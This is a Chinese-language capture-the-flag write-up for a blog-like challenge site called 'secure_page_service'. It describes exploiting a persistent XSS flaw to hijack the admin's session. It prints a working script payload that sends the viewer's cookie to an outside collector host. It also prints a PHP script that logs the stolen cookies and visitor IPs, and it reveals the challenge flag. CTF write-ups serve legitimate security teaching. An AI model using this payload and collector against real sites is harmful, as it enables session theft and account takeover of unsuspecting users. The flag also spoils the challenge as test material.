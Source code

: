 # secure_page_service
這是一個類似部落格的網站，你可以創造文章，然後用密碼鎖起來，flag藏在某個被密碼鎖住的文章裡。
 * 看一下網頁source code，實際創帳號嘗試後，收集到的線索：
  1. 只有admin可以不需要密碼就能看文章，如果能得到他的session_id就能搶到flag
  2. 網站有persistent XSS漏洞：沒有過濾輸入是否是HTML程式碼就存到資料庫裡，然後直接顯示出來
  3. 回報問題，不久admin會來察看你的文章！！

那要怎麼偷呢？
 * 2.讓我們可以把javascript程式碼存到資料庫裡，並且讓這段程式在看文章時執行
  * 所以用javascript取得瀏覽者的cookie，並且將cookie傳送到另一個準備好的網站去。像這樣：
```javascript
</div>
<script>location.href=("http://ulkk1c611e83.lubebul.koding.io/php.php?cookie="+document.cookie)
</script>
```
 * 準備的那個網站，我架在[免費雲端平台Koding](http://ulkk1c611e83.lubebul.koding.io)上，只要把cookie給存下來就偷到囉：
```php
<?php
$cookie = $_GET['cookie'];
$userip = getenv('REMOTE_ADDR');
$file = '/home/lubebul/Documents/cookies.txt';
$fout = fopen($file, 'a') or die("cannot create file");
fwrite($fout, 'from ip = '.$userip.', get cookie: '.$cookie);
fclose($fout);
echo "I've stolen your cookie! Hehe~";
?>
```
 * 記得要給文章設密碼，然後回報問題等admin上當
 * 最後用瀏覽器外掛，編輯cookie的值，取得`Flag: wow_cross_site_scripting_is_such_web`
